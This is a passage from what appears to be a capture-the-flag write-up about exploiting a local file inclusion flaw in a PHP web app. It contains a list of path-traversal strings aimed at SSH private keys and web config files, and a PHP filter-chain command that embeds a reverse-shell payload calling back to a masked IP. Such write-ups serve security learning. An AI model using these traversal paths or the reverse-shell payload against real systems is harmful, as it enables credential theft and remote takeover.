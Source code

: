> Result:

![passwd_file](./screenshots/passwd_file.png)

> LFI is work. I get a passwd file and i see **'comte'** user.

> **Note:** initially i tried to find any credentials in clear text, keys or hashes in various configuration files:


```bash

../../../../../home/comte/.ssh/id_rsa
../../../../../home/comte/.ssh/id_dsa
../../../../../home/comte/.ssh/id_ecdsa
../../../../../home/comte/.ssh/id_ed25519
../../../../../home/comte/.ssh/id_rsa.pub
../../../../../var/www/html/config.php
../../../../../var/www/html/db.php
../../../../../var/www/html/settings.php
../../../../../var/www/html/includes/config.php
../../../../../var/www/html/.env
../../../../../var/www/html/.htpasswd
../../../../../var/www/html/.htaccess
../../../../../var/www/html/wp-config.php 
../../../../../etc/apache2/httpd.conf
../../../../../etc/httpd/conf/httpd.conf
../../../../../etc/apache2/envvars
../../../../../etc/apache2/apache2.conf

```

> But didn't receive anything

> After a Google search on the topic **"payload LFI for php://filter/"** i found a script that generates a chain of built-in PHP filters for
> encoding the payload in such a way that when it is restored on the server the PHP code that we transmit is executed.

> **PoC** - [chain-filter_attack](https://github.com/synacktiv/php_filter_chain_generator)

> Generated php filter payload for **file** parameter:

```bash

python3 chainfilter.py --chain '<?php $sock=fsockopen("*.*.*.*",4444);$proc=proc_open("/bin/sh -i",array(0=>$sock,1=>$sock,2=>$sock),$pipes);?>'

```
